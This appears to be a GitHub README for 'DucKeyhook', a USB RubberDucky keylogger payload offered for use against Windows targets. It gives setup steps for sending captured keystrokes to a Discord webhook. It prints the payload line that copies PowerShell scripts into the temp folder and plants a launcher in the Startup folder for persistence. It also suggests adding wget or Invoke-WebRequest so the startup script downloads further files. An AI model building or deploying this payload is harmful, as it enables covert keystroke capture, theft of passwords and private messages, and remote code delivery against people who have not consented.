 # DucKeyhook 
> Chris Taylor [Blue Cosmo]
---

```
      :::::::::  :::    :::  ::::::::  :::    ::: :::::::::: :::   ::: :::    :::  ::::::::   ::::::::  :::    ::: 
     :+:    :+: :+:    :+: :+:    :+: :+:   :+:  :+:        :+:   :+: :+:    :+: :+:    :+: :+:    :+: :+:   :+:   
    +:+    +:+ +:+    +:+ +:+        +:+  +:+   +:+         +:+ +:+  +:+    +:+ +:+    +:+ +:+    +:+ +:+  +:+     
   +#+    +:+ +#+    +:+ +#+        +#++:++    +#++:++#     +#++:   +#++:++#++ +#+    +:+ +#+    +:+ +#++:++       
  +#+    +#+ +#+    +#+ +#+        +#+  +#+   +#+           +#+    +#+    +#+ +#+    +#+ +#+    +#+ +#+  +#+       
 #+#    #+# #+#    #+# #+#    #+# #+#   #+#  #+#           #+#    #+#    #+# #+#    #+# #+#    #+# #+#   #+#       
#########   ########   ########  ###    ### ##########    ###    ###    ###  ########   ########  ###    ###        
```

## Overview:
DucKeyhook is a USB RubberDucky payload that uses PowerShell to log keystrokes. It will send the logs to you via discord. The keylogger almost gives you a "live feed" of their keystrokes through discord. However, you can tweak the timing to get the logs sent to you quick
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will execute *p.ps1* every minue
    - this can be changed to a preferred delay
- *uninstaller.cmd* uninstalls the payload from the target computer

## Resources:
- [YouTube Video](https://www.youtube.com/watch?v=uHIZZYFeVJA)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck firmware
- Discord Webhook
- Windows Target

## Download:
```bash
svn checkout https://github.com/CosmodiumCS/payloads/trunk/rubberducky/DucKeyhook
```

## Instructions:
**Create Discord Webhook**
1. create a discord server by clicking the plus button in the bottom left

![Create Server](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/create-server.png)

2. go into the `integrations` section in the server's settings
3. click `Webhooks`
![Integrations](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/integrations.png)

4. create a new webhook by clicking `New Webhook`
5. click `Copy Webhook URL` to copy the webhook URL
![Webhook](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/webhook.png)

**Set-Up/Installation**
1. in line 5 of *p.ps1*, replace `DISCORDWEBHOOK` with the webhook URL 
```powershell
$webhook = "DISCORDWEBHOOK"
```
2. in line 16 *payload.txt*, change `'L'` to the name of your microSD card
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\p.ps1 $env:temp;cp .\l.ps1 $env:temp;cp .\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
4. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://www.youtube.com/watch?v=BzYH-BPHLpE)
5. load, encode, and deploy!!

## Log Sending Delay
Changing the delay between log sends
1. in line 12 of *l.ps1*, change `60` to your preferred number of seconds
```powershell
Start-Sleep 60
```

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
